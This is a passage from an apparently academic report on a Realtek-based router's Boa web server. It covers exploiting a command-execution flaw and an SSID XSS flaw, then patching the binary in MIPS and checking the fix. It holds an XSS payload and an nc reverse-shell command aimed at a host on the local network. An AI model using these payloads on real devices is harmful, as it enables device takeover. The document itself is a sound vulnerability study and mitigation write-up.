      
\includegraphics[width=1\textwidth]{../imgs/3.6-ps.png}
      \caption{Ps output}
      \label{fig:ps}
  \end{figure}

            This completed the exploitation of CVE-2023-30404 both in the emulated environment and the real router. The vulnerability allowed us to move from authenticated web access to command execution, and then from command execution to an interactive shell and in Figures~\ref{fig:response} and~\ref{fig:confirm} is shown the response on boa server and the proof of the success of the attack.
            
\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.7-response.png}
      \caption{Response of Boa Server}
      \label{fig:response}
  \end{figure}

\begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/3.8-conferma_server.png}
      \caption{Success of the attack}
      \label{fig:confirm}
  \end{figure}

            The same test was later repeated against the patched Boa binary. In that case, the HTTP request was still accepted by the server, but the vulnerable handler returned immediately and the \emph{nc} process was not spawned. This comparison is discussed in Chapter~\ref{chap:fixing}.
    \section{XSS}

        Another vulnerability analyzed in the project was CVE-2023-30405, a cross-site scripting issue related to the web interface. The general idea is that a user-controlled value, such as the wireless SSID, is stored or reflected by the device and later inserted into the web interface without proper escaping.
        \\
        During the analysis phase, we identified the SSID rendering logic as the relevant sink. If the value is inserted into the DOM using \emph{innerHTML}, the browser interprets the value as HTML. If the SSID contains HTML or JavaScript event handlers, the browser may execute attacker-controlled code.
        \\
        In a real device scenario, the attacker would modify the SSID to contain a malicious payload. When an administrator later visits the affected page, the payload is rendered by the browser. In our Firmadyne environment, the original Realtek configuration handlers were not fully reliable, so we reproduced the same vulnerable rendering behavior in the stabilized web interface while keeping the original Boa server and the original web application structure.
        
        \subsection{Exploitation}
            To demonstrate the issue, we used a payload that provides both visual confirmation and JavaScript execution:

\begin{lstlisting}[language=HTML]
<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>
\end{lstlisting}

            This payload is useful for two reasons. The \emph{h1} tag gives an immediate visual indication that HTML has been interpreted, while the \emph{onerror} handler triggers JavaScript execution through \emph{alert(1)}. We chose this payload instead of a plain \emph{\textless script\textgreater} tag because scripts inserted through \emph{innerHTML} are not always executed by modern browsers, while event handlers such
            as \emph{onerror} are a reliable way to demonstrate XSS execution.
            \\
            The vulnerable page used for the demonstration was \emph{home.htm}. In this page, the SSID value is inserted into the DOM using \emph{innerHTML}:

\begin{lstlisting}[language=xml]
var ssid = '<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>';

function init() {
    var target = document.getElementById("ssidValue");
    if (target) {
        target.innerHTML = ssid;
    }
}
\end{lstlisting}

            The vulnerable page was reached at:

\begin{lstlisting}[language=bash]
http://192.168.10.253/home.htm
\end{lstlisting}

            When the page is opened, the browser parses the SSID as HTML instead of displaying it as plain text. As shown in Figure~\ref{fig:alert}, the injected image triggers the JavaScript \emph{alert(1)}.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/3.9-xss_home_alert.png}
      \caption{Alert message}
      \label{fig:alert}
  \end{figure}

            After closing the alert, the visual part of the payload remains rendered inside the page: the \emph{XSS\_OK} marker appears as a red heading, as shown in Figure~\ref{fig:xss}. This confirms that the injected SSID is interpreted as part of the page structure.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/3.10-xss_home_alert.png}
      \caption{Injected SSID rendered as HTML in the vulnerable page}
      \label{fig:xss}
  \end{figure}
                        
            This demonstrates the impact of CVE-2023-30405 in a directly observable way: the attacker-controlled value changes the DOM and triggers script execution in the administrator's browser.
            \\
            This behavior is especially relevant for a router or extender web interface because configuration values are frequently displayed back to the administrator after being saved. If one of those values is attacker-controlled and rendered without escaping, the web interface becomes a vehicle for client-side code execution. 
            \\
            Together with the previous RCE result, this completes the exploitation phase. The next chapter describes the mitigations applied to the identified issues, including the binary patch used to disable the RCE handler and the rendering change used to prevent XSS execution.

              

\chapter{Fixing}
\label{chap:fixing}
  \section{Patching RCE}
        % rimozione della funzione che permette l'esecuzione di comandi arbitrari

    To mitigate the RCE vulnerability affecting the router firmware, it was necessary to patch the component responsible for enabling arbitrary command execution. During the firmware analysis, the function \emph{FUN\_00440290} was identified by following the methodology described at \cite{mandomat}. This function was responsible for invoking the routine used to execute system commands. Further reverse engineering revealed that the function was merely a leftover from previous firmware versions and was no longer required for the normal operation of the device.
    \\
    Rather than modifying the command execution logic, the chosen mitigation strategy was to neutralize the vulnerable function by forcing it to return immediately. In the original Boa binary, the beginning of the function was replaced with the following MIPS instructions:

\begin{lstlisting}[language=Asm,caption={Patched function prologue}]
jr    $ra
addiu $sp, $sp, 0x98
\end{lstlisting}

    These instructions implement an immediate return on the \textbf{big-endian MIPS (MIPS BE)} architecture. The \emph{addiu} instruction occupies the branch delay slot of \emph{jr} and restores the stack pointer before control flow returns to the caller.

    The remaining bytes in the patched region were replaced with MIPS \emph{nop} instructions, encoded as \emph{0x00000000} rather than \emph{0x90}, which is specific to x86. Figure~\ref{fig:boa_ghidra} shows the patched function in Ghidra.

    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.9\textwidth]{../imgs/4.1-Boa_patched_ghidra.png}
        \caption{Boa binary patched with Ghidra}
        \label{fig:boa_ghidra}
    \end{figure}

    The byte-level comparison in Figure~\ref{fig:boa_vs_boapatched} confirms that the original command execution routine was replaced by the immediate-return sequence followed by \emph{nop} padding. This preserves the binary layout while preventing execution from reaching the vulnerable code path.

    \begin{figure}[H]
        \centering
        \includegraphics[width=0.9\textwidth]{../imgs/4.2-Boa_vs_Boapatched.png}
        \caption{hexdump: Boa vs Boa patched}
        \label{fig:boa_vs_boapatched}
    \end{figure}

    Starting from this first patch on the original Boa binary, we then prepared the two Boa versions used in the final Firmadyne tests. This additional step was necessary because the original firmware web application was not fully stable in the emulated environment. Infact, as anticipated, several code paths depended on Realtek-specific NVRAM/MIB state that was not completely reproduced by Firmadyne. As a consequence, some requests caused Boa to dereference invalid pointers and terminate with a segmentation fault.
    \\
    For this reason, we maintained two stabilized Boa binaries:

  \begin{itemize}
      \item \emph{boa.before-boaPatched}, which preserves the RCE-vulnerable command execution handler;
      \item \emph{boa.patched-stable}, which includes the RCE mitigation and is used to verify that the reverse shell can no longer be obtained.
  \end{itemize}

  As described in Section~\ref{sec:firmware emulation}, before applying the security patches we produced a stabilized Boa binary for the Firmadyne environment. That binary, saved as \emph{boa.before-boaPatched},
  preserved the original RCE-vulnerable command execution handler but included the emulation-stability changes required to prevent crashes caused by incomplete Realtek MIB/NVRAM state.

  Starting from this stabilized vulnerable binary, we then produced \emph{boa.patched-stable}. This second binary keeps the same Firmadyne stability changes, but additionally disables the RCE handler at \emph{0x00440290}. Therefore, the comparison between \emph{boa.before-boaPatched} and \emph{boa.patched-stable} isolates the RCE patch itself: both binaries are usable in the emulated web interface, but only the first one still exposes the vulnerable command execution path.
  \\
  At the RCE level, the important difference between the two stabilized binaries is located at the function starting at \emph{0x00440290}. In \emph{boa.before-boaPatched}, the function still contains the original logic that reads the \emph{sysCmd} parameter and reaches the command execution path (Figure~\ref{fig:boa_before_440290}).

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.3-Ghidra_boa_before_patched_stabile.png}
      \caption{\emph{boa.before-boaPatched} in Ghidra}
      \label{fig:boa_before_440290}
  \end{figure}

  In \emph{boa.patched-stable}, the same function was neutralized by replacing its entry point with an immediate return:

\begin{lstlisting}[language=Asm]
jr    $ra
nop
\end{lstlisting}

  The \emph{nop} instruction occupies the MIPS branch delay slot. This stabilized patch is functionally equivalent to the earlier patch applied to the original Boa binary, because both versions prevent execution from reaching the command execution logic. However, the exact delay-slot instruction is different. In the original patched binary, the delay slot contains \emph{addiu \$sp,\$sp,0x98}, while in the stabilized patched binary it contains a \emph{nop}. This difference is acceptable because \emph{boa.patched-stable} returns before creating a stack frame, so no stack pointer restoration is required.
  \\
  Figure~\ref{fig:boa_patched_stable_440290} shows the patched function in Ghidra.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.4-Ghidra_boa_patched_stabile.png}
      \caption{\emph{boa.patched-stable} in Ghidra}
      \label{fig:boa_patched_stable_440290}
  \end{figure}

  The same difference can also be observed directly from the terminal by comparing the bytes at the corresponding file offset. Since the binary is loaded at base address \emph{0x00400000}, the virtual address \emph{0x00440290} corresponds to file offset \emph{0x40290}. The comparison was performed with \emph{xxd}:

\begin{lstlisting}[language=bash]
xxd -g 1 -l 32 -s 0x40290 tentativo_dimensione/squashfs-root/bin/boa.before-boaPatched
xxd -g 1 -l 32 -s 0x40290 tentativo_dimensione/squashfs-root/bin/boa.patched-stable
\end{lstlisting}

  In the vulnerable stabilized binary, the dump still contains the original function body. In the patched stabilized binary, the first bytes are:

\begin{lstlisting}
03e00008 00000000
\end{lstlisting}

  which correspond to:

\begin{lstlisting}[language=Asm]
jr    $ra
nop
\end{lstlisting}

  Figure~\ref{fig:xxd_boa_rce_comparison} shows the byte-level comparison between the two stabilized Boa versions.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/4.5-Confronto_boa.png}
      \caption{Byte-level comparison}
      \label{fig:xxd_boa_rce_comparison}
  \end{figure}

  After rebuilding the Firmadyne image with \emph{boa.patched-stable}, we repeated the same reverse shell test used during the exploitation phase. On the host machine, we started a listener on port \emph{9001}:

\begin{lstlisting}[language=bash]
nc -nvlp 9001
\end{lstlisting}

  Then, through the exploit script, we attempted to execute the same reverse shell command:

\begin{lstlisting}[language=bash]
/tmp/nc 192.168.10.100 9001 -e /bin/sh
\end{lstlisting}

  With the patched Boa binary, the listener did not receive any incoming connection (Figure~\ref{fig:no_reverse_shell_listener}). This demonstrates that the command execution handler was no longer able to spawn the reverse shell.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=1\textwidth]{../imgs/4.6-Attacco_RCE_non_riuscito.png}
      \caption{No reverse shell connection}
      \label{fig:no_reverse_shell_listener}
  \end{figure}

  We also verified the result from inside the emulated firmware. If the attack had succeeded, a \emph{/tmp/nc} process would have appeared in the process list. Instead, after running:

\begin{lstlisting}[language=bash]
ps | grep nc
\end{lstlisting}

  the only matching process was the \emph{grep} command itself, and no \emph{/tmp/nc} reverse shell process was present (Figure~\ref{fig:no_nc_process_firmadyne}).

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.7-Conferma_su_server.png}
      \caption{No \emph{/tmp/nc} reverse shell process in firmadyne}
      \label{fig:no_nc_process_firmadyne}
  \end{figure}

  These tests confirm that the stabilized patched Boa binary preserves the expected web interface behavior while preventing exploitation of CVE-2023-30404. In other words, the same firmware image remains usable in Firmadyne, but the vulnerable command execution path no longer reaches the code responsible for launching system commands.

    \section{Patching Login By-pass}

